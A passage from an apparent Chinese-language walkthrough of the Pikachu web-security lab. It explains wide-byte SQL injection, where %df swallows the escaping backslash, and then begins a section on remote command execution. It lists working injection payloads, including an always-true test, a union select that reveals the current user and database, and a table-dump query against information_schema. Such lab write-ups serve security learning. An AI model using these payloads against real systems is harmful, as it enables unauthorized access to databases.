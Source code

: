 **漏洞利用**

id 的参数传入代码层,就会在 `’` 前加一个 `\`,由于采用的 URL 编码,所以产生的效果是
`%df%5c%27`

关键就在这,`%df` 会吃掉 `%5c`,形成一个新的字节,举个例子就是 `%d5` 遇到 `%5c` 会把 `%5c` 吃掉,形成 `%d5%5c` ,这个编码经过代码解码后会形成一个汉字 `"誠"`

因为 `%df` 的关系,`\` 的编码 `%5c` 被吃掉了,也就失去了转义的效果,直接被带入到 mysql 中,然后 mysql 在解读时无视了 `%a0%5c` 形成的新字节,那么单引号便重新发挥了效果

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/57.png) 这作者写提示就 TM 玩似的,太不友好了

- 测试payload: `lili%df' or 1=1 #`
- 测试payload: `lili%df%27%20or%201=1%23`

- 爆库payload: `lili%df' union select user(),database() #`

- 爆表payload: `lili%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/58.png)

- 后面略

---

## RCE

RCE 漏洞,可以让攻击者直接向后台服务器远程注入操作系统命令或者代码,从而控制后台系统.
一般出现这种漏洞,是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口

